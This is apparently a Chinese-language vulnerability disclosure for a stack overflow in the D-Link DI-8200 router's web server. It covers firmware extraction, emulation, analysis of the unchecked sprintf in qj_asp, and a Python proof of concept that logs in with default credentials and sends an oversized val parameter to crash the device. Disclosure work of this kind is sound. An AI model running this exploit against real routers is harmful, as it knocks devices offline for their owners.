








# D-Link DI-8200栈溢出漏洞

## 固件提取与模拟

获取DI-8200路由器固件，使用binwalk对固件进行分析解包，提取文件系统：

```shell
binwalk -Me DI_8200-16.07.26A1.trx
```



使用FirmAE模拟固件运行：

```shell
sudo ./run.sh -d aa ../CVE/DI_8200-16.07.26A1.trx
```



## 漏洞分析

提取固件文件系统，在\usr\sbin\jhttpd文件的qj_asp函数中存在栈溢出漏洞：



qj_asp函数属于jhttpd内部实现的用于处理qj.asp页面参数的函数，登录路由器后可以通过http://\<ip\>/qj.asp访问，同时通过val参数可以传入任意值。val参数传入的值会通过httpd_get_parm函数获取到，随后获取到的值将通过sprintf函数格式化赋值到栈变量v9中。



变量v9是一个长度为200个字节的字符数组，由于val参数的值可以通过前端传入的参数进行控制且在格式化赋值时并没有对该参数变量进行检查和过滤，因此可以通过控制val参数的值使得程序造成栈溢出，从而可以造成拒绝服务甚至命令执行。



## 漏洞验证

poc:

```python
import requests

s = requests.session()
url = "http://192.168.0.1"
headers = {
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}
data = {"user": "admin", "password": "admin"}
s.post(f"{url}/login.cgi", headers={**headers, "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Referer": f"{url}/login.html"}, data=data)
p = b'a' * 0x500
r = s.get(f"{url}/qj.asp?val={p}", headers=headers)
print(r.text)
```

执行poc之前，路由器正常访问：



执行poc，将造成栈溢出，导致路由器崩溃，从而实现拒绝服务攻击：





